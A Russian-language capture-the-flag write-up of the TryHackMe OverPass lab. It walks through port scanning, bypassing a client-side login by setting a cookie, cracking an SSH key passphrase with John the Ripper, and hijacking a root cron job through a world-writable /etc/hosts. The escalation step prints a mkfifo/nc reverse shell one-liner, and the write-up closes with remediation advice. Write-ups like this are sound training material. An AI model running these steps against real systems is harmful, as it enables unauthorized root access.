# TryHackMe - OverPass

## 1. Reconnaissance (Разведка)

Первым шагом было сканирование портов с помощью **RustScan** для определения периметра атаки.

```bash
rustscan -a 10.67.190.171 -- -sV
```
**Результат:** Обнаружены открытые порты 22 (SSH) и 80 (HTTP).



На порту 80 запущен веб-сервер Golang net. 
Был запущен перебор файлов и директорий через **FFUF**:

```bash
ffuf -w wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.67.190.171/FUZZ -e .php,.html,.txt
```



**Результат:** Обнаружены директории /admin, /downloads, /css, /img и другие.


## 2. Initial Access (Первоначальный доступ)

Перейдя по адресу /admin/, была обнаружена форма входа в админ-панель.



Анализ кода файла /login.js через Burp Suite показал, что механизм аутентификации полностью реализован на стороне клиента. JavaScript получает ответ от API и, если он не равен строке "Incorrect credentials", просто устанавливает куки SessionToken и перенаправляет на /admin/.



Это позволяет обойти аутентификацию, вручную установив заголовок Cookie: SessionToken=[любое непустое значение] при запросе к /admin/. В ответ был получен доступ к панели администратора, находился приватный SSH-ключ и имя пользователя `James`.



## 3. Foothold (Закрепление)

Был сохранен приватный SSH-ключ в файл id_rsa. Поскольку ключ был зашифрован, при попытке подключения система запросила парольную фразу (passphrase).



Был преобразован ключ в хэш с помощью **ssh2john** и подобранна фраза с помощью **John the Ripper** и словаря rockyou.txt:

```bash
ssh2john id_rsa > hash
john hash --wordlist=wordlist/rockyou.txt
```
**Результат:** Пароль от ключа — jam***.



Используя найденный пароль, удалось успешно подключиться по SSH под пользователем james и прочитать юзер флаг:




## 4. Privilege Escalation (Повышение привилегий)

В /etc/crontab была обнаружена задача, которая выполняется от имени root каждую минуту и скачивает скрипт с внешнего домена overpass.thm:

```
bash
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```


Обратив внимание на файл /etc/hosts - можно увидеть, что файл доступен для записи всем пользователям (Права -rw-rw-rw-).



Используя уязвимость CWE-732 (небезопасные права доступа), был отредактирован /etc/hosts, перенаправив домен overpass.thm на свой IP-адрес.



Далее была создана локально структура директорий downloads/src/, а также создан там скрипт buildscript.sh с reverse shell и запущен веб-сервер на 80 порту:

```
bash
# Содержимое buildscript.sh:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [local ip] 444 >/tmp/f

# Запуск сервера:
python3 -m http.server 80
```


Ожидая выполнения cron-задачи, был запущен слушатель на порту 444. Вскоре был получен реверс-шелл от имени root и прочитан root.txt.



## Remediation (Рекомендации по устранению)

Для предотвращения подобных атак необходимо:

1.  **Аутентификация:** Никогда не полагаться на клиентскую логику (JavaScript) для проверки учетных данных. Вся валидация должна проходить на стороне сервера, а сессионные токены должны генерироваться криптографически стойким способом.
2.  **Безопасность ключей:** Приватные SSH-ключи не должны храниться в открытом доступе или в исходном коде веб-страниц. Их всегда следует защищать надежными парольными фразами.
3.  **Права доступа к файлам:** Соблюдать принцип наименьших привилегий. Файл /etc/hosts должен быть доступен только для чтения обычным пользователям (644) и изменяться только root (root:root).
4.  **Безопасность Cron:** Задачи, выполняемые от имени root, не должны скачивать и исполнять скрипты из внешних, неконтролируемых источников (curl | bash). Используйте локальные, защищенные директории для скриптов автоматизации.